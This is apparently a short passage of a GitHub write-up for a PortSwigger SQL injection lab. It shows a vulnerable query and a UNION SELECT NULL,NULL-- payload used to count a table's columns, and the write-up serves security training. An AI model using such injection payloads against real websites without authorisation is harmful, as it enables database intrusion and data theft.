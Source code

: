 ## Lab Description :

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/87c37d0d-a9be-450a-91be-316964a825fc)

## Solution :
Query made - 

```sql
SELECT * FROM someTable WHERE category = '<CATEGORY>'
```

#### Finding out the number of columns -

```sql
SELECT * FROM someTable WHERE category = '<CATEGORY>' ' UNION SELECT NULL,NULL--
```

**2 NULL** returns no error , which means there are 2 columns in the database.
